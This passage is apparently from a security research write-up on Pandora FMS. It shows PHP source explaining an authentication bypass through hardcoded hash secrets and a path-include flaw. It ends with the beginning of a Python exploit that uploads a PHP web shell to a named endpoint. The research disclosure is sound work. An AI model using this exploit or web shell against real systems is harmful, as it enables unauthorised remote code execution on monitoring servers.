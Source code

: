 When not trying to do a login [1], the application verifies that we have a valid session [2]. 
But as you can see [3] and [4] allows us to fall into another if case where `$auth_class::validatePublicHash()` is called, interesting.

Per default the authentication class is `PandoraFMS\User` so let's have a look at their `validatePublicHash()` method.


```php
<snip>
    public static function validatePublicHash(string $hash, string $other_secret='') : bool {
        global $config;

    <snip>

        // Build a hash to check.
        $hashCheck = self::generatePublicHash($other_secret);       [1]
        if ($hashCheck === $hash) {
            // "Log" user in.
            if (session_status() !== PHP_SESSION_ACTIVE) {
                session_start();
            }

<snip>
```

Within the same class now the `generatePublicHash()` function is called with an empty string as the only parameter [1].


```php
    public static function generatePublicHash(?string $other_secret=''):string
    {
        global $config;

        $str = $config['dbpass'];
        $str .= $config['id_user'];
        $str .= $other_secret;
        return hash('sha256', $str);
    }
```

Unfortunatly for the developers, these "secrets" are hardcoded and didn't change due to minor version updates and different machines. That means, we know the hash and can just supply it and in conclusion, are able to bypass the authentication mechanism and reach our beloved `include()` statement.


But wait, we still weren't currently able to traverse to our webshell due to the `safe_url_extraclean()` function call. So for example the input "../../../../tmp/test" would return "", an empty string. No luck there as it seems, but have a look again how the `include()` is triggered, there is no path in front of our input. This allowed me to use an absolute path to our webshell and finally include it for pre-auth RCE, ha what a nice catch!

Below you can see the final exploit:

```python3
import requests, sys

if len(sys.argv) != 2:
    print(f"Usage: {sys.argv[0]} <hostname/ip>")
    sys.exit(1)

url = f"http://{sys.argv[1]}/pandora_console/enterprise/meta/general/upload_head_image.php"
files = {'upload': ("file", b"<?php system($_REQUEST['c']); ?>")}

r = requests.post(url, files=files)

print("[*] Uploading file...")
if r.status_code == 200:
```